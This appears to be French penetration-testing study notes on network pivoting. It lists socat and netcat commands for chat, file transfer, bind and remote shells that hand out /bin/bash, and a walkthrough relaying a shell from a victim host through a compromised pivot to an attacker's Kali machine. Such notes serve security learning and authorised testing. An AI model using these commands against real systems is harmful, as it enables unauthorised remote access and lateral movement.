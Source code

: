 
> [!NOTE] Ce qui suit est un nouveau contenu
> 

# Basic Pivoting

Ses methodes fonctionne des deux sences donc il faut l'adapter en fonction du senario

#Chatting

```sh
# SERVER
socat TCP4-LISTEN:1234 STDOUT


nc -nlvp 4444 
```

```sh
# CLIENT
socat STDIN TCP4:SERVER_IP:1234


nc -nv SENDER_IP 4444
```

#Shells

```sh
# SENDER
socat TCP4-LISTEN:1234 EXEC:/bin/bash
socat -d -d TCP4-LISTEN:443 STDOUT


nc -nlvp 4444 -e /bin/bash
```

```sh
# RECIEVER
socat STDIN TCP4:SENDER_IP:1234
socat TCP4:SENDER_IP:443 EXEC:/bin/bash


nc -nv SENDER_IP 4444
```

#File #Transfert

```sh
# SENDER
socat FILE:filename.txt TCP4-LISTEN:1234,fork


nc -nlvp 4444 > incomming.exe
```

```sh
# RECIEVER
socat - TCP4:SENDER_IP:1234 > output.file
socat TCP4:SENDER_IP:1234 FILE:receive-filename.txt,create


nc -nv SENDER_IP 4444 < incomming.exe
```

### Revershell Over Pivot (Shell inverser attraver un pivot)

> Si le serveur compromis est `192.168.217.129 (PIVOT POINT)` et que la cible est le `192.168.45.129 (VICTIME)`,
> En utilisent une technique de pivot vue presedament nous avons reussir a obtenir un shell (incomplet)sur la machine cible.
> 
> Alors nous pourrions utiliser les commandes suivantes pour obtenir un shell complet sur la machine en cible:

- Tout d'abord sur le pc de la cible

```c
# VICTIME
socat TCP4-LISTEN:1234 EXEC:/bin/bash
```

- En suite sur le pc compromis (PIVOT POINT)

```C
# PIVOT POINT
socat TCP4-LISTEN:3333 TCP4:VICTIME_IP:1234

socat TCP4-LISTEN:3333 TCP4:192.168.45.129:1234
```

- Enfin sur notre propre pc  attaquante

```c
# KALI
socat STDIN TCP4:PIVOT_POINT_IP:3333

socat STDIN TCP4:192.168.217.129:3333
```


